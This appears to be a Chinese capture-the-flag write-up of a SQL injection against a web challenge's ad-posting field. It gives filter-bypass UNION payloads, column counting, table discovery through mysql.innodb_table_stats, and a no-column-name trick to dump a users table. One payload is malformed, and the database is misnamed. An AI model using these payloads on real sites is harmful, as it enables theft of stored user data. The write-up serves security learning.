





看着有 XSS，但是无法利用，所以只能找 SQL 注入

登录注册、在测试的时候发现发布中的广告名如果输入一些敏感关键字，例如`and`、`or`。会有警告，fuzz 出来是这样



很明显的 sql 注入了，直接联合查询

```
1'/**/group/**/by/**/22,'3
```

第 23 行时报错，说明列明是 22 行。



接下来测试回显位，发现回显位为 2，3



```
1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

接下来就是注入三步走了

```
1'union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

接着爆表

```
1'union/**/select/**/1,group_concat(table_name)/**/where/**/information_schema.tables/**/where/*/tables_schema='web1',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

但是这里是 mangodb，修改 payload

```
1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```




这时候就要无列名注入了，由于没有 `mysql.innodb_column_stats` 这个方法，就查不了列名，此时我们就需要给不存在的列名取名，然后按照别名正常继续注入。

```
1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```




